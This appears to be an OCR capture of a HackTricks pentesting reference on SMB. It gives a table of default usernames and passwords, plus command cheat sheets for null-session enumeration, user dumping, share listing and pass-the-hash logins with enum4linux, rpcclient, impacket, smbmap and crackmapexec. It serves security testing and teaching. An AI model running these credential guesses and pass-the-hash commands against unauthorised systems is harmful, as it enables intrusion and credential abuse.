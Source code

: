 [139,445 - Pentesting SMB](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)

[**#Possible Credentials**]

|   |   |
|---|---|
|**Username(s)**|**Common passwords**|
|_(blank)_|_(blank)_|
|guest|_(blank)_|
|Administrator, admin|_(blank)_, password, administrator, admin|
|arcserve|arcserve, backup|
|tivoli, tmersrvd|tivoli, tmersrvd, admin|
|backupexec, backup|backupexec, backup, arcada|
|test, lab, demo|password, test, lab, demo|

[**#Obtain Information**]

```bash
#Dump interesting information
enum4linux -a [-u "<username>" -p "<passwd>"] <IP>
enum4linux-ng -A [-u "<username>" -p "<passwd>"] <IP>
nmap --script "safe or smb-enum-*" -p 445 <IP>

#Connect to the rpc
rpcclient -U "" -N <IP> #No creds
rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb  --pw-nt-hash
rpcclient -U "username%passwd" <IP> #With creds
#You can use querydispinfo and enumdomusers to query user information

#Dump user information
/usr/share/doc/python3-impacket/examples/samrdump.py -port 139 [[domain/]username[:password]@]<targetName or address>
/usr/share/doc/python3-impacket/examples/samrdump.py -port 445 [[domain/]username[:password]@]<targetName or address>

#Map possible RPC endpoints
/usr/share/doc/python3-impacket/examples/rpcdump.py -port 135 [[domain/]username[:password]@]<targetName or address>
/usr/share/doc/python3-impacket/examples/rpcdump.py -port 139 [[domain/]username[:password]@]<targetName or address>
/usr/share/doc/python3-impacket/examples/rpcdump.py -port 445 [[domain/]username[:password
```

[**#List shared folders**]

It is always recommended to look if you can access to anything, if you don't have credentials try using **null** **credentials/guest user**.
```bash
smbclient --no-pass -L //<IP> # Null user
smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> #If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash

smbmap -H <IP> [-P <PORT>] #Null user
smbmap -u "username" -p "password" -H <IP> [-P <PORT>] #Creds
smbmap -u "username" -p "<NT>:<LM>" -H <IP> [-P <PORT>] #Pass-the-Hash
smbmap -R -u "username" -p "password" -H <IP> [-P <PORT>] #Recursive list

crackmapexec smb <IP> -u '' -p '' --shares #Null user
crackmapexec smb <IP> -u 'username' -p 'password' --shares #Guest user
crackmapexec smb <IP> -u 'username' -H '<HASH>' --shares #Guest user
```

